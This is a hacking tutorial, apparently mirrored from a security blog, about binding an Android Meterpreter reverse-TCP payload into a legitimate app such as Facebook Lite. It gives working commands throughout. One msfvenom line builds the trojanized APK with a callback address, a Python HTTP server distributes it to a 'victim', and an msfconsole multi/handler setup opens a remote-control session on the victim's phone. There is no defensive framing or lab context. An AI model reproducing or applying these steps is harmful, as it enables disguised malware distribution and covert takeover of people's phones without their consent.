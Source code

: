 ![](https://raw.githubusercontent.com/3X-M1L174RY/bookmarks/master/images/multiple-ways-to-bind-payloads-in-an-apk/intro.png)
Hey Folks, as we know beginners try to find the best ways that they can embed the payload into the original APK, But it takes their long time to do research on it. So in this article we will give you all the working methods, with the help of which you can quickly embed payloads in any application without wasting your time. But remember that you must have all dependencies before performing this activity and If you have not done so you can do by visiting here.

## Requirements
  - Kali Linux
  - APKsigner or Jarsigner [One of them]
  - APK Tool [Latest]
  - ZipAlign
  
Lets take a look 🙂 !!
  
## Inbuilt Method

As we have already discussed about it in our previous article, so if you want to get deeper information about it then go to above given link. Now first we download the app and also you can choose himself any application as per need.
![](https://raw.githubusercontent.com/3X-M1L174RY/bookmarks/master/images/multiple-ways-to-bind-payloads-in-an-apk/2.png)

You do not need to do more efforts, just go the location of the downloaded application, replace the IP address, choose the port yourself and jsut execute the command. After doing all this, if the dependencies are successfully installed then you will get success otherwise it will show an error due to not properly configuring the dependencies. <br><br>
`msfvenom -x facebook-lite.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o facebook.apk`<br><br>
![](https://raw.githubusercontent.com/3X-M1L174RY/bookmarks/master/images/multiple-ways-to-bind-payloads-in-an-apk/3.png)<br>

In our case we would choose python service to share the payload to someone else.<br><br>
`python -m SimpleHTTPServer`<br><br>
![](https://raw.githubusercontent.com/3X-M1L174RY/bookmarks/master/images/multiple-ways-to-bind-payloads-in-an-apk/4.png)

The payload will look like this when the victim downloads it to their smartphone.

![](https://raw.githubusercontent.com/3X-M1L174RY/bookmarks/master/images/multiple-ways-to-bind-payloads-in-an-apk/5.png)

**Done** 🙂 !! Time to take advantage and we have to boot our msfconsole to kept the meterpreter session. Just execute the following command and after comes the meterpreter session we can control the victim phone remotely.

```
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 192.168.1.10
set lport 4444
run
```

![](https://raw.githubusercontent.com/3X-M1L174RY/bookmarks/master/images/multiple-ways-to-bind-payloads-in-an-apk/6.png)

# READ FULL ARTICLE HERE 
https://secnhack.in/multiple-ways-to-embed-a-payload-in-an-original-apk-file/


